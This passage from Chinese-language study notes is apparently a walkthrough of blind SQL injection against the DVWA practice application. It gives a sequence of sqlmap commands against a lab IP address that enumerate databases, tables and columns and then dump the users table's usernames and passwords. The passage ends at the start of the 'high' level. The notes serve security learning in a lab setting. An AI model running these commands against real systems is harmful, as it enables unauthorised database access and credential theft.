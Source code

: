 ```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch
```

![截图录屏_选择区域_20210127154411](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127154411.png)

4.获取数据库

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch --dbs
```

![截图录屏_选择区域_20210127154618](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127154618.png)

5.获取dvwa库中的数据表

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa --tables
```

![截图录屏_选择区域_20210127154757](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127154757.png)

6.获取users表中的列

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127154949](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127154949.png)

7.获取user和password的信息

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli_blind/" --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127155109](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127155109.png)

### high

1.high级别的查询和结果显示在不同的页面

![截图录屏_选择区域_20210127155208](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127155208.png)

2.抓包查看信息

![截图录屏_选择区域_20210127155527](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127155527.png)

3.使用sqlmap查找注入点
